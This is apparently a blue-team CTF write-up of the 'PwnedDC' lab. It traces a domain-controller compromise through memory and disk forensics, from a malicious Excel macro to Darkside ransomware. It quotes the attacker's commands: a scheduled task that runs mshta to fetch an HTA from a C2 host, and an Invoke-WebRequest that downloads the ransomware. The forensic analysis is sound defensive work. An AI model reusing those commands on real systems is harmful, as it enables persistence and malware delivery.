---


[https://cyberdefenders.org/blueteam-ctf-challenges/pwneddc-fin7/](https://cyberdefenders.org/blueteam-ctf-challenges/pwneddc-fin7/)


## Scenario {#35f7b0eb61a4800bb861c7edc2a63f05}


A corporate domain controller has been compromised, and attackers gained control over Active Directory. As a SOC analyst, investigate to uncover who was behind the attack, what happened, when and how it occurred, and why.


Instructions:

- Use **Win2016x64_14393** profile with volatility2 to analyze the memory dump

We are given an EnCase (E01) file





And a memory dump





For quick triage, I used Arsenal image mounter, then employed KAPE to extract and parse all disk forensics artifacts: registry hives, event logs, NTFS artifacts,….


I also used volatility to run initial triage plugins.


## Basic triage {#3497b0eb61a48056be41edbcca19187e}


### RAM {#35f7b0eb61a480a9a76ad7c8d299414f}


By using imageinfo with vol2


```c++
C:\Users\Administrator\Desktop\Start Here\Tools\Memory Analysis\volatility2.6>vol.exe -f "C:\Users\Administrator\Desktop\Start Here\Artifacts\AD-MEM\memory.dmp" --profile=Win2016x64_14393 kdbgscan
Volatility Foundation Volatility Framework 2.6
**************************************************
Instantiating KDBG using: Kernel AS Win2016x64_14393 (6.4.14393 64bit)
Offset (V)                    : 0xf8030e8f2500
Offset (P)                    : 0x13c6f2500
KdCopyDataBlock (V)           : 0xf8030e7d2e00
Block encoded                 : No
Wait never                    : 0xf7f8886404bf6f34
Wait always                   : 0x7eda9d4011178009
KDBG owner tag check          : True
Profile suggestion (KDBGHeader): Win2016x64_14393
Service Pack (CmNtCSDVersion) : 0
Build string (NtBuildLab)     : 14393.693.amd64fre.rs1_release.1
PsActiveProcessHead           : 0xfffff8030e9013d0 (44 processes)
PsLoadedModuleList            : 0xfffff8030e907060 (157 modules)
KernelBase                    : 0xfffff8030e602000 (Matches MZ: True)
Major (OptionalHeader)        : 10
Minor (OptionalHeader)        : 0
KPCR                          : 0xfffff8030e944000 (CPU 0)
KPCR                          : 0xffffaa00ffbcd000 (CPU 1)
KPCR                          : 0xffffaa00ffe40000 (CPU 2)
KPCR                          : 0xffffaa00ffec3000 (CPU 3)


```


```c++
Offset (V)                    : 0xf8030e8f2500
Offset (P)                    : 0x13c6f2500
KdCopyDataBlock (V)           : 0xf8030e7d2e00
```


And other initial triage plugins:


psxview: we see sign of DKOM (Direct kernel object manipulation)

- The attacker unlinked the malicious process from EPROCESS **`doubly-linked list`**`.`




pstree:





A legitimate svchost.exe is typically spawned by services.exe.


`wsmprovhost.exe` (Windows Management Instrumentation Shell Provider Host) is a legitimate Windows process responsible for handling **Windows Remote Management (WinRM)** and **PowerShell remoting** tasks. It is not designed to act as a parent process of system services


Also `explorer.exe` should be spawned by `userinit.exe` not `svchost.exe`


netscan





192.168.112.139 is listening at port 5985 (WinRM) and is connecting to 192.168.112.142 consolidates our finding above.


> Attacker (having already compromised 192.168.112.142 ) established a WinRM session to 192.168.112.139 (lateral movement)


### Disk {#3497b0eb61a480498f0ff59e42b61a99}





MFT table: somehow all the entries were named with strings of z





Same thing happened with UsnJr





:::tip

This is a classic forensic signature of anti-forensics secure deletion.
- Data wiping: overwrite the physical sectors on the hard drive with random data, ensuring the file’s content cannot be carved or recovered

- MFT name wiping: using SDelete to rename the file 26 times.

It starts by renaming the file to all `A`s, then renames it to all `B`s, then all `C`s, cycling through the entire alphabet until it reaches `Z`.

- _Example:_ If the attacker deletes `malware.exe` (11 characters), SDelete renames it to `AAAAAAA.AAA`, then `BBBBBBB.BBB`, all the way to `ZZZZZZZ.ZZZ`, and _then_ finally issues the deletion command.

:::


I took a look at the Prefetch:


| Run Time<br/>2021-11-23 13:20:12                                                                                                                                                                                                                                                                                                 | **`MIMIKATZ.EXE-E60D5C29.pf`**:                                                                                                               | `Executable Name<br/>\VOLUME{01d7ddaea1605655-d6a188f8}\USERS\LABIB\DOCUMENTS\MIMIKATZ.EXE`                                           |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------- |
| Run Time<br/>2021-11-22 21:51:34                                                                                                                                                                                                                                                                                                 | **`SHARPHOUND.EXE-F1A89354.pf`**: data collector for BloodHound. Attacker use for mapping Active Directory (PwnedDC) and privilege escalation | `Executable Name<br/>\VOLUME{01d7ddaea1605655-d6a188f8}\USERS\LABIB\DOWNLOADS\SHARPHOUND.EXE`                                         |
| Run Time<br/>2021-11-22 22:29:47<br/>2021-11-22 22:30:31<br/>2021-11-22 22:30:48<br/>2021-11-22 22:33:56<br/>2021-11-22 22:38:30<br/>2021-11-22 22:40:55<br/>2021-11-22 22:43:10<br/>2021-11-22 22:54:56                                                                                                                         | **`PSEXEC64.EXE-71EB8A0A.pf`**: notoriously known to be used in lateral movement                                                              | `Executable Name<br/>\VOLUME{01d7ddaea1605655-d6a188f8}\USERS\LABIB\DOWNLOADS\PSEXEC64.EXE`                                           |
| Run Time<br/>2021-11-22 20:41:19<br/>2021-11-22 20:43:27<br/>2021-11-22 21:02:36<br/>2021-11-22 21:49:54<br/>2021-11-22 22:43:51<br/>2021-11-23 12:46:14<br/>2021-11-23 13:18:25<br/>2021-11-23 13:30:04                                                                                                                         | **`POWERSHELL.EXE-022A1004.pf`**:                                                                                                             |                                                                                                                                       |
| Run Time<br/>2021-11-23 13:32:44                                                                                                                                                                                                                                                                                                 | **`SCHTASKS.EXE-BA1E321E.pf`**: can be used to create the scheduled task we have found above                                                  | `\VOLUME{01d7ddaea1605655-d6a188f8}\WINDOWS\SYSTEM32\SCHTASKS.EXE`                                                                    |
| Run Time<br/>2021-11-20 18:32:40<br/>2021-11-21 09:21:33<br/>2021-11-21 15:50:05<br/>2021-11-21 23:02:10<br/>2021-11-21 23:09:41<br/>2021-11-22 19:20:26<br/>2021-11-22 19:26:29<br/>2021-11-22 19:33:43<br/>2021-11-22 19:40:45<br/>2021-11-22 20:42:23<br/>2021-11-23 13:12:53<br/>2021-11-23 13:18:16<br/>2021-11-23 22:53:39 | **`RUNDLL32.EXE`** **:** LOLBIN to execute dll files or credential access.                                                                    | `\VOLUME{01d7ddaea1605655-d6a188f8}\WINDOWS\SYSWOW64\RUNDLL32.EXE`<br/>`\VOLUME{01d7ddaea1605655-d6a188f8}\WINDOWS\SYSTEM32\RUNDLL32.EXE` |
| Run Time<br/>2021-11-22 22:44:17                                                                                                                                                                                                                                                                                                 | **`WHOAMI.EXE-824687C3.pf`**: discovery                                                                                                       |                                                                                                                                       |
| Run Time<br/>2021-11-21 09:18:07<br/>2021-11-21 15:49:21<br/>2021-11-21 18:57:05<br/>2021-11-21 22:26:38<br/>2021-11-21 23:11:14<br/>2021-11-22 18:28:30<br/>2021-11-22 18:56:44<br/>2021-11-22 20:30:57                                                                                                                         | **`IPCONFIG.EXE-EEA91845.pf`** **`PING.EXE-167FE968.pf`**: discovery                                                                          |                                                                                                                                       |


### User related action {#3497b0eb61a480cda6aff79bccbe030a}


Because the Prefetch artifacts indicated that the user Labib executed Mimikatz and SharpHound, I checked his recent activity in `NTUSER.DAT`."


| Target Name                   | Lnk Name                      | Mru Position | Opened On           |
| ----------------------------- | ----------------------------- | ------------ | ------------------- |
| Outlook.pst                   | Outlook.lnk                   | 0            | 2021-11-21 23:09:55 |
| 20211119103954_BloodHound.zip | 20211119103954_BloodHound.lnk | 0            | 2021-11-19 18:40:16 |





And UserAssist





The session spanned for almost 3 hours and powershell window was opened for more than one hour in 23-11-2021


JumpLists





ShellBags





The compromised user accessed BloodHound.zip on 19/11/2021 at 18:40:00





 \DC01\netlogon was last openned at 19/11/2021 19:40:49


\DC01\Dc01\sysvol was last accessed at 2021-11-22 22:49:39.863


Administrator:


I search for `ConsoleHost_history.txt` . Only user Administrator had this file: 


```powershell
.\schtasks.exe /Create /F /SC DAILY /ST 12:00 /TN MicrosoftEdge /TR "c:\Windows\system32\cmd.exe /c 'mshta.exe http://c2.cyberdefenders.org/5EEiDSd70ET0k.hta'"

```


A scheduled task which connect to c2.cyberdefenders.org and download a suspicious file


### EventID {#3497b0eb61a480dab7e3d9ba399c8f37}


By using evtxEcmd.exe 





There are no Sysmon logs on the machine. And other event log seemed to be wiped


:::tip

From all the analysis above, we can deduce several conclusions:
- Anti-forensics and defense evasion: the attacker attempted to cover their tracks by deleting windows event logs, destroyed malicious payloads and staged data by using file-wiping utility (could be Sysinternal SDelete)

- DKOM: unlink the malicious processes from EPROCESS list.

- AD reconnaissance and credential theft: Prefetch files and the NTUSER.DAT registry hive confirm that the compromised user (Labib) executed MIMIKATZ.EXE, SHARPHOUND.exe and interacted with BLOODHOUND.zip

- Lateral movement: network connections show that attacker compromised 192.168.112.142 and established a WinRM session to pivot to 192.168.112.142. ShellBags and Prefetch artifacts further confirm the use of PSEXEC64.exe and unauthorized access to critical DC shares (`\\DC01\netlogon` and `\\DC01\sysvol`).

- Persistence: console history artifacts revealed the creation of a daily scheduled task named MicrosoftEdge. This task uses mshta.exe to reach out to attacker’s infrastructure `http://c2.cyberdefenders.org/5EEiDSd70ET0k.hta`  to retrieve the payload.

:::


## Questions {#35f7b0eb61a48046ae14e26ed730e7ed}


### Q1 What is the name of the first malware detected by Windows Defender? {#3497b0eb61a480d49c0ff09851b1ef71}


By checking for event ID 1116: 


```sql
Exploit:Win32/ShellCode.BN

Type :		Warning
Date :		11/21/2021
Time :		7:03:28 PM
Event :		1116
Computer :	PC01.cyberdefenders.org
: file:_\\vmware-host\Shared Folders\asd\note.txt

Process Name: C:\Windows\System32\notepad.exe
```


> Exploit:Win32/ShellCode.BN


### Q2 Provide the date and time when the attacker clicked send (submitted) the malicious email? {#3497b0eb61a480db9655fda53033f3e4}


In corporate evinronment, Outlook is a popular email client. By navigating to`C:\Users\<Username>\Documents\Outlook Files\` , i found .pst file





By using typical outlook forensics tool provided in the lab, in this case 4n6 Outlook wizard.


There are a 73 emails in the inbox. I skimmed through the emails with attachments and noticed an abnormal attachment: 





I calculated the hash and checked on virustotal





Skimming through the email’s source code





From: "DHL FINANCE INQUIRY " ismail@dxmxva.buzz
Date: Thu, 12 Aug 2021 06:47:48 +0200 


The question asks for UTC time. So the answer is:


> `2021-08-12 04:47`


### Q3 What is the IP address and port on which the attacker received the reverse shell? {#3497b0eb61a480a388d8c4a14a97b5da}


I use olevba to check if there was any malicious VBA in the xls file.


To actually understand the behavior of the VBA: 


```c++
olevba --show-pcode "Unpaid Invoice.xls" > pcode.txt
```


The payload:





`LitDI2` is a specific instruction found in VBA P-code (the compiled, intermediate language that Microsoft Office actually executes when running a macro).

- Lit (Literal): This indicates that the instruction is dealing with a "literal" value—a fixed, hardcoded number written directly into the code, rather than a variable.
- I2 (2-byte Integer): This specifies the data type and size. It tells the system to expect a 16-bit (2-byte) signed integer.

I used a python script to extract the shellcode: 


```c++
import re
with open("pcode.txt", "r") as file:
    data=file.read()

    hex_strings=re.findall(r'LitDI2\s(0x[0-9A-Fa-f]+)', data)
    shellcode = bytearray()
    for h in hex_strings:
        val=int(h,16)
        shellcode.append(val & 0xFF) #bitwise
    with open('payload.bin', "wb") as f:
        f.write(shellcode)
    
```


And used the scdbg to analyze the shellcode’s behavior


```c++
C:\Users\Administrator\Desktop\Start Here\Tools\Memory Analysis\scdbg>scdbg.exe /f "C:\Users\Administrator\Desktop\Start Here\Artifacts\payload.bin" /findsc
Loaded 33b bytes from file C:\Users\Administrator\Desktop\Start Here\Artifacts\payload.bin
Testing 827 offsets  |  Percent Complete: 99%  |  Completed in 109 ms
0) offset=0x0          steps=MAX    final_eip=7c801d7b   LoadLibraryA
Loaded 33b bytes from file C:\Users\Administrator\Desktop\Start Here\Artifacts\payload.bin
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000

4010bd  LoadLibraryA(wininet)
4010cb  InternetOpenA()
4010e7  InternetConnectA(server: 192.168.112.128, port: 8080, )

Stepcount 2000001
```


> server: 192.168.112.128, port: 8080


### Q4 What is the MITRE ID of the technique used by the attacker to achieve persistence? {#3497b0eb61a480589614fe8628b21fec}


We already found  `ConsoleHost_history.txt` file in `D:\Users\administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline`


```sql
"C:\Windows\system32\schtasks.exe" /Create /F /SC DAILY /ST 12:00 /TN MicrosoftEdge /TR "c:\Windows\system32\cmd.exe /c 'mshta.exe http://c2.cyberdefenders.org/5EEiDSd70ET0k.hta'"
.\schtasks.exe /Create /F /SC DAILY /ST 12:00 /TN MicrosoftEdge /TR "c:\Windows\system32\cmd.exe /c 'mshta.exe http://c2.cyberdefenders.org/5EEiDSd70ET0k.hta'"
```


> T1053. 005 — Scheduled Task


### Q5 What is the attacker's C2 domain name? {#3497b0eb61a480cc9b2bf22d430b3305}


> 192.168.112.128


### Q6 What is the name of the tool used by the attacker to collect AD information? {#3497b0eb61a48013bd75fffc350c40b5}


As we have found proof in Prefetch and Labib’s NTuser.dat.


The result must be:


> BloodHound


### Q7 What is the PID of the malicious process? {#3497b0eb61a480628a18f5abbc6e6a9d}


... 0xffffba033f4a7080:wsmprovhost.ex                1632    860     22      0 2021-11-20 15:06:08 UTC+0000
.... 0xffffba03419b7800:svchost.exe                  3140   1632      5      0 2021-11-20 15:06:52 UTC+0000


As we have analyzed before. The answer must be:


> 3140


### Q8 What is the family of ransomware? {#3497b0eb61a48069892fd8a14532b4ed}


Since I used the `malfind` plugin and couldn't find an address segment with the `MZ` magic bytes, the attacker must have employed process hollowing or masquerading


I used the procdump plugin


```sql
C:\Users\Administrator\Desktop\Start Here\Artifacts\AD-MEM>vol.exe -f memory.dmp --profile=Win2016x64_14393 -g 0xf8030e8f2500 procdump -p 3140 -D .         
```





I calculated the hash and upload to virustotal








> Darkside


### Q9 What is the command invoked by the attacker to download the ransomware? {#3497b0eb61a480fba36edc1496e4fcd2}


I dumped the malicious process using memdump


```c++
strings.exe 3140.dmp | Select-String -Pattern "[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}:[0-9]{4}"
```


strings.exe -n 10 3140.dmp | Select-String -Pattern "192.168.112.128:8000" -Context 3,3





> `Invoke-WebRequest http://192.168.112.128:8000/svchost.exe -OutFile svchost.exe`


### Q10 What is the address where the ransomware stores the 567-byte key under the malicious process's memory? {#3497b0eb61a4809f861ffb6c2a7201f4}


To solve this question i use the -n flag in strings.exe to find string length ≥ 567 





Yarascan is excellent to find the address of any given data.


`vol.exe -f "C:\users\Administrator\Desktop\Start Here\Artifacts\AD-MEM\memory.dmp" --profile=Win2016x64_14393 -g 0xf8030e8f2500 yarascan -p 3140 -Y "lsJTyyTnzJlGQ”` 


```c++
C:\Users\Administrator\Desktop\Start Here\Tools\Memory Analysis\volatility2.6>vol.exe -f "C:\users\Administrator\Desktop\Start Here\Artifacts\AD-MEM\memory.dmp" --profile=Win2016x64_14393 -g 0x0000000022e48800 yarascan -p 3140 -Y "lsJTyyTnzJlGQ1I6sfwV6oVcXaRynwN6mWphA7BKXEDIHJcDlhN"
Volatility Foundation Volatility Framework 2.6
Rule: r1
Owner: Process svchost.exe Pid 3140
0x00b5f4a5  6c 73 4a 54 79 79 54 6e 7a 4a 6c 47 51 31 49 36   lsJTyyTnzJlGQ1I6
0x00b5f4b5  73 66 77 56 36 6f 56 63 58 61 52 79 6e 77 4e 36   sfwV6oVcXaRynwN6
0x00b5f4c5  6d 57 70 68 41 37 42 4b 58 45 44 49 48 4a 63 44   mWphA7BKXEDIHJcD
0x00b5f4d5  6c 68 4e 4e 48 73 72 78 6c 6b 70 67 67 52 43 68   lhNNHsrxlkpggRCh
0x00b5f4e5  4b 32 6e 51 37 77 50 30 73 6b 6e 4a 76 6c 33 37   K2nQ7wP0sknJvl37
0x00b5f4f5  6c 62 71 45 6c 54 6f 70 6b 55 79 77 4b 33 51 6e   lbqElTopkUywK3Qn
0x00b5f505  66 4a 46 6d 71 44 42 53 43 6d 46 49 53 65 57 53   fJFmqDBSCmFISeWS
0x00b5f515  75 64 6a 67 77 78 42 34 6b 4b 53 70 37 68 34 56   udjgwxB4kKSp7h4V
0x00b5f525  79 53 48 65 75 34 4c 6d 44 69 5a 58 54 41 68 31   ySHeu4LmDiZXTAh1
0x00b5f535  64 62 5a 48 57 78 54 74 5a 30 62 41 36 50 68 43   dbZHWxTtZ0bA6PhC
0x00b5f545  6f 44 72 62 47 6b 63 74 59 34 72 75 63 49 54 57   oDrbGkctY4rucITW
0x00b5f555  34 49 64 59 55 5a 4a 43 38 64 32 42 37 53 46 6e   4IdYUZJC8d2B7SFn
0x00b5f565  72 35 45 41 37 45 6f 52 6b 61 6a 72 5a 57 35 34   r5EA7EoRkajrZW54
0x00b5f575  62 72 4d 35 4b 67 77 71 73 7a 36 37 71 7a 48 36   brM5Kgwqsz67qzH6
0x00b5f585  48 6b 30 56 72 33 45 44 63 6e 47 7a 4e 6a 47 51   Hk0Vr3EDcnGzNjGQ
0x00b5f595  42 61 70 4a 63 7a 49 57 6b 67 50 74 4d 43 4a 64   BapJczIWkgPtMCJd
```


> 0x00b5f4a5  


### Q11 What is the 8-byte word hidden in the ransomware process's memory? {#3497b0eb61a48087a5acc44ab2db4de5}


This time we will use volshell


```c++
C:\Users\Administrator\Desktop\Start Here\Tools\Memory Analysis\volatility2.6>vol.exe -f "C:\users\Administrator\Desktop\Start Here\Artifacts\AD-MEM\memory.dmp" --profile=Win2016x64_14393 -g 0x0000000022e48800 volshell -p 3140
Volatility Foundation Volatility Framework 2.6
Current context: svchost.exe @ 0xffffba03419b7800, pid=3140, ppid=1632 DTB=0x2f3e8000
Welcome to volshell! Current memory image is:
file:///C:/users/Administrator/Desktop/Start%20Here/Artifacts/AD-MEM/memory.dmp
To get help, type 'hh()'
>>> proc().Peb.ProcessHeaps.dereference()
<Array 10420224,65536>
>>> db(65536)
0x00010000  63 00 00 30 00 00 6e 00 00 36 00 00 72 00 00 34   c..0..n..6..r..4
0x00010010  00 00 37 00 00 35 00 00 20 01 01 00 00 00 00 00   ..7..5..........
0x00010020  20 01 01 00 00 00 00 00 00 00 01 00 00 00 00 00   ................
0x00010030  00 00 01 00 00 00 00 00 10 00 00 00 00 00 00 00   ................
0x00010040  20 07 01 00 00 00 00 00 00 00 02 00 00 00 00 00   ................
0x00010050  0f 00 00 00 01 00 00 00 00 00 00 00 00 00 00 00   ................
0x00010060  e0 0f 01 00 00 00 00 00 e0 0f 01 00 00 00 00 00   ................
0x00010070  00 80 00 00 00 00 00 00 00 00 00 00 00 00 10 00   ................
>>>
```


 `proc().Peb.ProcessHeaps.dereference()` : open PEB and access the heap.


The system returns `65536` (which converts to `0x10000` in Hexadecimal).


The `db(65536)` (Display Bytes) command will then print the data located at that specific address to the screen. 


As it turns out, the attacker hid that 8-byte keyword right at the starting point (`0x10000`) of the Heap memory."


> **`c0n6r475`**


### Q12 What is the ransomware file's internal name? {#3497b0eb61a480d98bb5f2cd5290a870}


I used dumpfiles to dump all the files in the 3140 process. Then use `Resource Hacker`  to check the metadata of the executables





> `calimalimodumator.exe`


## Key takeaway {#34a7b0eb61a4801ab7fae044bfea5248}


### Yarascan {#35f7b0eb61a480dda092fa3cf9bb1f9d}

- Core Concept: YARA is a tool that identifies and classifies malware based on textual or binary patterns.
- Volatility `yarascan` Plugin: This is a perfect combination. Volatility brings the power of YARA directly into RAM (memory) scanning.

How `yarascan` works:


When you run `yarascan -Y "string"`, Volatility will:

1. Penetrate deep into the memory space (including hidden or unlinked segments) - requirement: you can’t only use YARA scan on the
2. Scan from beginning to end to find the exact virtual address (coordinates) where that string resides.
3. Upon finding it, it provides two highly valuable outputs:
	- Virtual Address (0x...): The exact coordinate of the text in memory.
	- Hex Dump & ASCII: It prints the surrounding memory area in Hex and ASCII formats, allowing you to see if any passwords or additional payloads are hidden nearby.

A Practical Analogy:

- If running `strings` is like dumping a bucket of sand on the floor and finding seashells (you know they exist, but have no idea exactly where they came from)...
- ...then `yarascan` is like using a metal detector on a beach. When it beeps, it doesn't just tell you metal is present; it gives you the exact GPS coordinates (Virtual Address) of that metal buried under the sand (RAM).

### Volshell (Interactive Memory Analysis) {#35f7b0eb61a480f0bd56d225003aa31b}


`volshell` is a plugin designed for direct, interactive memory analysis.

- `cc(pid=1234)`: Changes the current context to the memory space of a specific PID.
- `dt("structure_name", address)`: For example, `dt("EPROCESS")` prints the entire internal structure of a process.
- `db(address, length)` (Display Bytes): The command used earlier. It prints data in Hex and ASCII tables.
- `dd(address)` (Display Dwords): Reads data in 4-byte chunks (highly useful for finding IP addresses or memory pointers).

When `volshell` is most useful:

- When an attacker uses DKOM (Direct Kernel Object Manipulation) to unlink processes and blind the `pslist` plugin.
- When analyzing custom/novel malware, such as manually extracting the hidden 8-byte key from the heap.
- For plugin development: You can use `volshell` to prototype Python commands before writing a full Volatility plugin.

### VACB {#35f7b0eb61a4809486d2c033f3bfd04c}


1. What is a VACB (Virtual Address Control Block)?


When you run a large executable (or open a massive file), Windows does _not_ load the entire file into RAM at once, because that would waste system memory. Instead, Windows uses the Cache Manager.
The Cache Manager maps files from the hard drive into memory in 256 KB chunks. The data structure that keeps track of these 256 KB chunks is called a Virtual Address Control Block (VACB).
When Volatility tries to extract a file from a memory dump (e.g., using the `dumpfiles` plugin), it actively hunts for these VACBs to stitch the 256 KB chunks back together into a complete file.


2. Why do you get `.img` files?


When an executable (`.exe` or `.dll`) is run, Windows maps it into memory using Section Objects. A file sitting on your hard drive is packed tightly. But when it is loaded into RAM to be executed, Windows stretches it out and aligns the sections to fit memory pages (called "Image Alignment").
When Volatility dumps this running process, it saves it as a `.img` (Image) file. Because it has been stretched out and modified by the Windows loader (e.g., import tables resolved, sections shifted), the `.img` file will _not_ have the exact same hash or structure as the original `.exe` on disk.


3. Why do you get `.dat` files?When Windows caches normal data (like a `.txt` file, a `.zip`, or a configuration file) into VACBs, it doesn't always care about the file extension. If Volatility stitches the chunks back together but cannot definitively prove the file's original name or extension from the surrounding memory structures, it defaults to saving it as a generic `.dat` file.

